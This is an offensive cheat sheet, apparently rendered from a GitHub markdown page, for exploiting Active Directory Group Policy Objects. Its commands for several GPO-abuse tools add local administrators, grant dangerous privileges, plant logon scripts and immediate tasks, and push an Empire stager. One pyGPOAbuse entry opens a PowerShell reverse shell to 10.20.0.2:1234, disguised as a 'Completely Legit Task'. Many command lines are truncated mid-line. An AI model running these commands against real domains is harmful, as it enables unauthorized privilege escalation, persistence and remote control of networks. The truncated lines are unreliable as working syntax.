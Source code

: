# Group Policy Objects (GPO) Exploitation

## Tools: Bloodhound, PowerGPOAbuse, SharpGPOAbuse, pyGPOAbuse, Powerview, StandIn

## Location stored: SYSVOL directory

### Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

### GPO Prioritization: Organization Unit > Domain > Site > Local

### GPO are stored in the DC in \\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\ , inside two folders User and Machine. If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at Machine\Preferences\ScheduledTasks .

### Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: gpupdate /force .

## Finding vulnerable GPO

### Look a GPLink where you have the Write right.

 - Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs | Where-Object {($_.ActiveDi

#### 1) runas /netonly /user:DOMAIN\AD_USERNAME cmd.exe

#### 2) dir \\DOMAIN\sysvol

#### 3) mmc

#### 4) File -> Add/Remove Snap-in

#### 5) Group Policy Management then click Add

#### 6) OK

#### 7) Navigate to GPO our user has permission to modify

#### 8) Right-click on GPO and select edit

### Add our account to local groups 

#### 1) Expand Computer Configuration 

#### 2) Expand Policies

#### 3) Expand Windows Settings

#### 4) Expand Security Settings

#### 5) Right-click on Restricted Groups and select Add Group

#### 6) Click browse, enter IT Support (example) and click Check Names

#### 7) Click OK twice

#### 8) On second filter, add Administrators and Remote Desktop Users groups

#### 9) Apply and OK then WAIT FOR 15 MINUTES FOR THE GPO TO BE APPLIED

## SharpGPOAbuse https://github.com/FSecureLABS/SharpGPOAbuse

#### 1) Build and configure SharpGPOAbuse

 - Install-Package CommandLineParser -Version 1.9.3.15

 - $ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.

####  2) Adding User Rights

 - .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight"

#### 3) Adding a Local Admin

 - .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

#### 4) Configuring a User or Computer Logon script

 - .\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents

#### 5) Configuring a Computer or User Immediate Task

### /!\ Intended to "run once" per GPO refresh, not run once per system

 - .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command

 - .\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\

## PowerGPOAbuse https://github.com/rootSySdk/PowerGPOAbuse

#### 1) Run the module

 - PS> . .\PowerGPOAbuse.ps1

#### 2) Adding a localadmin

 - PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 3) Assign a new right

 - PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 4) Adding a New Computer/User script

 - PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get

#### 5) Create an immediate task

 - PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments

## pyGPOAbuse https://github.com/Hackndo/pyGPOAbuse

#### 1) Add john user to local administrators group (Password: H4x00r123..)

 - ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

#### 2) Reverse shell

 - ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
-powershell \
-command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\
-taskname "Completely Legit Task" \
-description "Dis is legit, pliz no delete" \
-user

## Powerview

#### 1) Enumerate GPO

 - Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

#### 2) New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO

 - New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments

## StandIn https://github.com/FuzzySecurity/StandIn

#### 1) Add a local administrator

 - StandIn.exe --gpo --filter Shards --localadmin user002

#### 2) Set custom right to a user

 - StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege

#### 3) Execute custom command

 - StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK
